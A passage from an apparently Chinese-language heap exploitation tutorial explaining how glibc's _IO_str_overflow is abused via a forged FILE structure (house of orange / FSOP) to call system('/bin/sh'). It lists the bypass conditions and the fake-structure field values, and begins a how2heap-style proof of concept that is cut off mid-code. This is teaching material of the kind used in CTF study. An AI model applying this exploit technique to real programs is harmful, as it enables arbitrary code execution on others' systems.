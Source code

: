 ```c
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)

```

利用以下代码来劫持程序流程

```c
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

几个条件 bypass：

1. `1. fp->_flags & _IO_NO_WRITES为假`
2. `2. (pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`
3. `3. fp->_flags & _IO_USER_BUF(0x01)为假`
4. `4. 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100 不能为负数`
5. `5. new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100; 应当指向/bin/sh字符串对应的地址`
6. `6. fp+0xe0指向system地址`

构造：

```
_flags = 0
_IO_write_base = 0
_IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1
_IO_buf_end = (binsh_in_libc_addr -100) / 2 

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1

vtable = _IO_str_jumps - 0x18
```

#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_overflow conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack
    // top[0] = ~1;
```